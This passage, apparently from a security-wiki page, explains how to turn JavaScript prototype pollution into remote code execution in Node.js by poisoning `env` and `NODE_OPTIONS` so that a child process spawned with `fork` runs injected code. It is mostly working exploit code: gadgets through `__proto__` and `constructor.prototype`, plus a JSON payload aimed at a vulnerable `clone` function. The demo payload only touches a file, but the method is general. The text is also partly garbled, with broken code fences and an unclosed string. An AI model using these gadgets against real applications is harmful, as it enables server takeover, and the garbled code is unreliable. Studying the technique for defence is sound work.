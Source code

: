 ```
  const value = env[key];
  if (value !== undefined) {
    ArrayPrototypePush(envPairs, `${key}=${value}); // <-- Pollution
  }
}
```
```
Check that code you can see it's possible en **poison `envPairs`** just by **polluting** the **attribute `.env`.**

### **Poisoning `__proto__`**

> [!WARNING]
> Note that due to how the **`normalizeSpawnArguments`** function from the **`child_process`** library of node works, when something is called in order to **set a new env variable** for the process you just need to **pollute anything**.\
> For example, if you do `__proto__.avar="valuevar"` the process will be spawned with a var called `avar` with value `valuevar`.
>
> However, in order for the **env variable to be the first one** you need to **pollute** the **`.env` attribute** and (only in some methods) that var will be the **first one** (allowing the attack).
>
> That's why **`NODE_OPTIONS`** is **not inside `.env`** in the following attack.

```javascript
const { execSync, fork } = require("child_process")

// Manual Pollution
b = {}
b.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"

// Trigger gadget
var proc = fork("./a_file.js")
// This should create the file /tmp/pp2rec

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce\\").toString())//"}}}'
)

clone(USERINPUT)

var proc = fork("a_file.js")
// This should create the file /tmp/pp2rec
```
```
### Poisoning `constructor.prototype`

```javascript
const { execSync, fork } = require("child_process")

// Manual Pollution
b = {}
b.constructor.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//",
}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"

proc = fork("a_file.js")
// This should create the file /tmp/pp2rec2
```